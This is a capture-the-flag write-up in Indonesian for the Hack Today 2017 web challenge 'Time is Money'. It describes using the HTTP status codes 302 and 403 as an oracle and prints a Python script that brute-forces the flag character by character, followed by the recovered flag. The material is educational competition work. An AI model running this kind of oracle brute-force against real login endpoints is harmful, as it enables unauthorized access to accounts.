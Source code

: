 # Hack Today 2017: Time is Money

**Category:** Web
**Points:** 65

## Write-up

- Tidak terdapat clue apapun pada misi ini sehingga kami mencoba untuk mengecek respon status kode yang dikirim.
- Karena kami sudah tahu bahwa flag berawalan strings “HackToday{” dan mendapat respon status kode 302, sedangkan apabila mengirimkan strings acak seperti “asd” respon yang didapat adalah 403, yang mengartikan bahwa strings awal yang kami kirim adalah valid.
- Langkah selanjutnya kami coba bruteforce tiap karakter yang ada menggunakan script berikut,

>	import requests</br>
>	charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}"</br>
>	password = "HackToday{"</br>
>	url = "http://sawah.ittoday.web.id:40137/"</br>
>	while(password[-1]!="}"):</br>
>		for i in charset:</br>
>			r = requests.get(url)</br>
>			payload = {'password': password+i, 'submit': 'Submit+Query'}</br>
>			r = requests.post(url, data=payload)</br>
>			if r.status_code==302:</br>
>				password+=i</br>
>				print password</br>

Didapatlah flag : `HackToday{long_l000ng_flag_is_panjaaa44ng_panjaaanggg_b3ndeeeraaa}`.
